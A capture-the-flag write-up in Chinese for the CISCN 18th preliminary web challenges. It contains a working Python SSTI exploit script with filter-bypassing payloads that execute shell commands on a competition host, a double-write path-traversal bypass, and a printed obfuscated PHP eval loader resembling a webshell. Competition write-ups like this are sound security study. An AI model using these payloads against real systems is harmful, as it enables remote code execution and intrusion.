 ```yaml
---
title: ciscn-18
titleTemplate: ':title | Writeups - or4nge'
layout: doc
---
```


# 第十八届 CISCN 初赛 Writeup by or4nge

::: info
**Rank: 84**
:::

## Web

### Safe_Proxy

普通的 ssti，利用根路由中的`open`，将结果写入源码文件。

```python
import requests

payload="{{''['_'+'_class_'+'_']['_'+'_mro_'+'_'][1]['_'+'_subclasses_'+'_']()}}"
target="http://47.94.104.233:32863/"
ind =0
for i in range(200):
    payload = f"{{{{''['_'+'_class_'+'_']['_'+'_mro_'+'_'][1]['_'+'_subclasses_'+'_']()[{i}]['_'+'_init_'+'_']['_'+'_globals_'+'_']['o'+'s']}}}}"
    rep= requests.post(target,data={'code':payload})
    if 'ok' in rep.text:
        ind = i
        print(rep.text)
        print(i,rep.status_code)
        break

payload =f"{{{{''['_'+'_class_'+'_']['_'+'_mro_'+'_'][1]['_'+'_subclasses_'+'_']()[{ind}]['_'+'_init_'+'_']['_'+'_globals_'+'_']['_'+'_builtins_'+'_']['exec']('_'+'_imp'+'ort_'+'_(\\'o'+'s\\').s'+'ystem(\\'cat /flag >> `ls *.py`\\')')}}}}"
rep = requests.post(target,data={'code':payload})
rep = requests.get(target)
print(rep.text)
```

### hello_web

通过测试可以发现其在 find 处最多传入 14 个字符，否则会回显`NAVIE`但是如果 payload 中存在`../`的时候可以多三个字符，怀疑进行替换，同时根据 html 中注释可以知道路径为`../hackme.php`，尝试双写绕过`?file=....//hackme.php`读到源码：

```php
<?php
highlight_file(__FILE__);
$lJbGIY="eQOLlCmTYhVJUnRAobPSvjrFzWZycHXfdaukqGgwNptIBKiDsxME";$OlWYMv="zqBZkOuwUaTKFXRfLgmvchbipYdNyAGsIWVEQnxjDPoHStCMJrel";$lapUCm=urldecode("%6E1%7A%62%2F%6D%615%5C%76%740%6928%2D%70%78%75%71%79%2A6%6C%72%6B%64%679%5F%65%68%63%73%77%6F4%2B%6637%6A");
$YwzIst=$lapUCm{3}.$lapUCm{6}.$lapUCm{33}.$lapUCm{30};$OxirhK=$lapUCm{33}.$lapUCm{10}.$lapUCm{24}.$lapUCm{10}.$lapUCm{24};$YpAUWC=$OxirhK{0}.$lapUCm{18}.$lapUCm{3}.$OxirhK{0}.$OxirhK{1}.$lapUCm{24};$rVkKjU=$lapUCm{7}.$lapUCm{13};$YwzIst.=$lapUCm{22}.$lapUCm{36}.$lapUCm{29}.$lapUCm{26}.$lapUCm{30}.$lapUCm{32}.$lapUCm{35}.$lapUCm{26}.$lapUCm{30};eval($YwzIst("JHVXY2RhQT0iZVFPTGxDbVRZaFZKVW5SQW9iUFN2anJGeldaeWNIWGZkYXVrcUdnd05wdElCS2lEc3hNRXpxQlprT3V3VWFUS0ZYUmZMZ212Y2hiaXBZZE55QUdzSVdWRVFueGpEUG9IU3RDTUpyZWxtTTlqV0FmeHFuVDJVWWpMS2k5cXcxREZZTkloZ1lSc0RoVVZCd0VYR3ZFN0hNOCtPeD09IjtldmFsKCc/PicuJFl3eklzdCgkT3hpcmhLKCRZcEFVV0MoJHVXY2RhQSwkclZrS2pVKjIpLCRZcEFVV0MoJHVXY2RhQSwkclZrS2pVLCRyVmtLalUpLCRZcEFVV0MoJHVXY2RhQSwwLCRyVmtLalUpKSkpOw=="));
?>
```